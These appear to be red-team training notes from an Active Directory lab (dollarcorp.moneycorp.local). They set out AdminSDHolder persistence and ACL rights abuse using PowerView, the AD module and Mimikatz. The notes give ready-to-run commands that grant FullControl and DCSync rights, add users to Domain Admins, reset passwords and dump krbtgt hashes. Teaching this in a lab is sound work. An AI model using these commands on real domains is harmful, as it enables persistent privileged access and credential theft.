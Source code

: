 # AdminSDHolder

• Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups).

• Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL. 

Protected Groups

![image](https://user-images.githubusercontent.com/40224197/211097368-f1f41fbf-0bf8-4cec-8dc9-1b78a5652393.png)

Well known abuse of some of the Protected Groups - All of the below can log on locally to DC:

![image](https://user-images.githubusercontent.com/40224197/211097492-4a7b001b-a2f5-4ac4-b1f3-1f15c0da3cc4.png)

• With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.

• In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.

#### Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```

#### Using ActiveDirectory Module and Set-ADACL:
```powershell
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```

#### Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder:
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights ResetPassword -Verbose

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights WriteMembers -Verbose
```

#### Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory:
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

#### For pre-Server 2008 machines:
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check the Domain Admins permission - PowerView as normal user:
```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}
```

#### Using ActiveDirectory Module:
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

#### Abusing FullControl using PowerView_dev:
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

#### Using Active Directory Module:
```powershell
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

#### Abusing ResetPassword using PowerView_dev:
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

#### Using Active Directory Module:
```powershell
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

# Rights Abuse

• There are even more interesting ACLs which can be abused.

• For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

#### Add FullControl rights:
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights All -Verbose
```

#### Using Active Directory Module and Set-ADACL:
```powershell
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```

#### Add rights for DCSync:
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose
```

#### Using ActiveDirectory Module and Set-ADACL:
```powershell 
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```

#### Execute DCSync:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Learning Objective 12

• Check if studentx has Replication (DCSync) rights.

• If yes, execute the DCSync attack to pull hashes of the krbtgt user.

• If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.
